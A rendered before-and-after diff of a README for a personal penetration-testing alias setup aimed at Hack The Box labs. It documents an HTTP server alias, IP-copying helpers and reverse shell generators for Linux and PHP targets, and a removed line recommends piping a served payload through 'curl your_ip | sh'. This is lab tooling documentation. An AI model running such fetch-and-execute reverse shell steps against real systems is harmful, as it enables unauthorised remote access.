

Before and after one commit to jaytiwari05/my_recon-setup, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -85,79 +56,43 @@ uptty
 
-## Switching Between Branches
+### www
 
-Already cloned but want to switch? Easy!
+Starts an HTTP server on port 80 in the current directory and displays network info.
 
 ```bash
-# Switch to tmux branch
-cd ~/zsh-aliases
-git checkout tmux
-source ~/.zshrc
-start_htb
-
-# Switch back to main (terminator) branch
-cd ~/zsh-aliases
-git checkout main
-source ~/.zshrc
-start_htb
+www
 ```
 
-> ### ⚠️ Important Note
-> The `start_htb.py` script has different implementations in each branch tailored for the specific terminal environment. Make sure to use the branch that matches your terminal preference.
+> Uses sudo for port 80 binding.
 
 ---
 
-> ### Disclaimer
-> Most of these aliases were built for practicality over elegance. Feel free to submit pull requests to reduce the "pepeganess". For now, if it works, it ships! 😄
+### tun0
 
-## Core Features
+Copies the IP address of the tun0 interface to clipboard.
 
-### 🚀 Misc Utilities
-
-#### **www**
-Starts a HTTP server on port 80 in the current directory with network information.
 ```bash
-┌──(root㉿pain)-[/tmp/www]
-└─$ www
-[eth0] 192.168.172.128
-[/tmp/www]
-linpeas.sh  pspy64
-Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
-```
-> **Note**: Uses sudo for port 80 binding
-
-#### **tun0**
-Copies the IP address of tun0 interface to clipboard.
-```bash
-┌──(root㉿pain)-[~/pain]
-└─$ tun0
-# Clipboard: 10.10.14.41
+tun0
 ```
 
-#### **mkdir_cd**
-Create directory and immediately cd into it.
+---
+
+### mkdir_cd
+
+Create a directory and immediately enter it.
+
 ```bash
-┌──(root㉿pain)-[~/pain]
-└─$ mkdir_cd meow
-┌──(root㉿pain)-[~/pain/meow]
-└─$
+mkdir_cd target
 ```
 
-### 🔄 Reverse Shells
+---
 
-#### **gen_lin_rev $ip $port**
+# 🔄 Reverse Shell Generators
+
+### gen_lin_rev $ip $port
+
 Generates multi-payload reverse shell HTML page for Linux targets.
+
 ```bash
-┌──(root㉿pain)-[~]
-└─$ gen_lin_rev 127.0.0.1 1337
-[+] Wrote Linux reverse shells to /home/pain/index.html
-```
-Perfect for: `curl your_ip | sh`
-
-#### **gen_php_rev $ip $port**
-Generates PentestMonkey PHP reverse shell.
-```bash
-┌──(root㉿pain)-[~]
-└─$ gen_php_rev 127.0.0.1 1337
-[+] Wrote PHP reverse shell to /home/pain/pain.php
+gen_lin_rev 10.10.14.10 1337
 ```
 
````
Also changed, not shown: other parts of README.md (+184 -146 lines).
